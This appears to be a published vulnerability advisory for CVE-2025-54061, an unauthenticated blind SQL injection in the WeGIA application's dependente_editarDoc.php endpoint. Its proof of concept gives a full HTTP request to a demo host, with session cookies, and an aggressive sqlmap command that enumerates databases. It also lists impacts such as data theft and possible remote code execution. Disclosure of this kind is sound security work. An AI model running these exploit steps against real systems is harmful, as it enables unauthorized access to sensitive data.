

## CVE-2025-54061: SQL Injection (Blind Time-Based) Vulnerability in `idatendido_familiares` Parameter on `dependente_editarDoc.php` Endpoint

> *CVE Publication: https://www.cve.org/CVERecord?id=CVE-2025-54061*

## Summary

<p style="text-align: justify;">A SQL Injection vulnerability was discovered in the <code>idatendido_familiares</code> parameter of the <code>/html/funcionario/dependente_editarDoc.php</code> endpoint. This issue allows any unauthenticated attacker to inject arbitrary SQL queries, potentially leading to unauthorized data access or further exploitation depending on database configuration.</p>

## Details

<p style="text-align: justify;">The application fails to properly sanitize user-supplied input in the <code>idatendido_familiares</code> parameter. As a result, specially crafted SQL payloads are interpreted directly by the backend database.</p>

## PoC

Vulnerable Endpoint: `/html/funcionario/dependente_editarDoc.php`

Parameter: `idatendido_familiares`

<p style="text-align: justify;">Save the request in <code>req.txt</code> file:</p>

```terminal
  POST /html/funcionario/dependente_editarDoc.php?id_pessoa=3&idatendido_familiares=1 HTTP/1.1
  Host: demo.wegia.org
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br, zstd
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 82
  Origin: https://demo.wegia.org
  Connection: keep-alive
  Referer: https://demo.wegia.org/html/funcionario/profile_dependente.php?id_dependente=1
  Cookie: _ga_F8DXBXLV8J=GS2.1.s1751259204$o23$g0$t1751259204$j60$l0$h0; _ga=GA1.1.424189364.1749063834; PHPSESSID=bv1jv0i5nijrv1a3dkkimbp270
  Upgrade-Insecure-Requests: 1
  Sec-Fetch-Dest: document
  Sec-Fetch-Mode: navigate
  Sec-Fetch-Site: same-origin
  Sec-Fetch-User: ?1
  Priority: u=0, i

  rg=56.242.1&orgao_emissor=Uni%C3%A3o1&data_expedicao=2005-06-06&cpf=495.852.710-95
```

<p style="text-align: justify;">Then, use <code>sqlmap</code>:</p>

```terminal
  sqlmap -r req.txt -p idatendido_familiares --risk=3 --level=5 --dbs --batch --dbms=mysql --batch
```



## Impact

<p style="text-align: justify;">
  <ul>
    <li>Unauthorized access to sensitive data (e.g., users, passwords, logs).</li>
    <li>Database enumeration (schemas, tables, users, versions).</li>
    <li>Escalation to RCE depending on DB configuration (e.g., xp_cmdshell, UDFs).</li>
    <li>Full compromise of the application if chained with other vulnerabilities.</li>
    <li>This issue affects all users and environments, as it does not require authentication and is reachable via a public endpoint.</li>
  </ul>
</p>

## Reference

[https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-g47q-vfpj-g9mr](https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-g47q-vfpj-g9mr)

## Finder

[](http://www.linkedin.com/in/marceloqueirozjr) [Marcelo Queiroz](http://www.linkedin.com/in/marceloqueirozjr)

## Contributor

[](https://www.linkedin.com/in/nmmorette/) [Natan Maia Morette](https://www.linkedin.com/in/nmmorette/)

> *By: [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)*